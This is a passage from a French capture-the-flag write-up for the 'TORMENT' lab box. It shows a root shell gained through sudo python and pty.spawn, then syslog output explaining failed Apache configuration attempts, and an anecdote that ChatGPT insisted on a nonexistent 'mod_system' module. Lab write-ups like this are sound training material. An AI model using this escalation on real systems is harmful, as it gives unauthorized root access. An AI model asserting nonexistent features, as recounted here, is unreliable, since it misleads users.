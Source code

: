 Finish :

```console
qiu@TORMENT:~$ sudo /usr/bin/python
Python 2.7.13 (default, Sep 26 2018, 18:42:22) 
[GCC 6.3.0 20170516] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty
>>> pty.spawn("/bin/bash")
root@TORMENT:/home/qiu# cd /root
root@TORMENT:~# ls
author-secret.txt  proof.txt
root@TORMENT:~# cat proof.txt
Congrutulations on rooting TORMENT. I hope this box has been as fun for you as it has been for me. :-)

Until then, try harder!
```

## Il m'a pris pour Sarah Connor ?

Avec un accès root je peux désormais lire `/var/log/syslog` pour déterminer ce qui clochait dans les directives.
Par exemple, on ne peut pas utiliser `root` pour faire tourner Apache bien que le process parent soit lancé avec l'utilisateur (pour une raison évidente d'écoute sur un port privilégié) :

```
Mar  8 23:04:06 TORMENT systemd[1]: Starting The Apache HTTP Server...
Mar  8 23:04:06 TORMENT apachectl[1725]: AH00526: Syntax error on line 115 of /etc/apache2/apache2.conf:
Mar  8 23:04:06 TORMENT apachectl[1725]: Error:\tApache has not been designed to serve pages while\n\trunning as root.  There are known race conditions that\n\twill allow any local user to read any file on the system.\n\tIf you still desire to serve pages as root then\n\tadd -DBIG_SECURITY_HOLE to the CFLAGS env variable\n\tand then rebuild the server.\n\tIt is strongly suggested that you instead modify the User\n\tdirective in your httpd.conf file to list a non-root\n\tuser.\n
Mar  8 23:04:06 TORMENT apachectl[1725]: Action 'start' failed.
Mar  8 23:04:06 TORMENT apachectl[1725]: The Apache error log may have more information.
Mar  8 23:04:06 TORMENT systemd[1]: apache2.service: Control process exited, code=exited status=1
Mar  8 23:04:06 TORMENT systemd[1]: Failed to start The Apache HTTP Server.
Mar  8 23:04:06 TORMENT systemd[1]: apache2.service: Unit entered failed state.
Mar  8 23:04:06 TORMENT systemd[1]: apache2.service: Failed with result 'exit-code'.
```

Quant à la directive `System` ou un soi-disant module Apache `mod_system`... ils n'existent pas :

```
Mar  8 23:24:16 TORMENT apachectl[1910]: Invalid command 'System', perhaps misspelled or defined by a module not included in the server configuration
```

_ChatGPT_ m'a pourtant soutenu le contraire pendant une vingtaine de minutes. Gardons un œil sur _SkyNet_ !
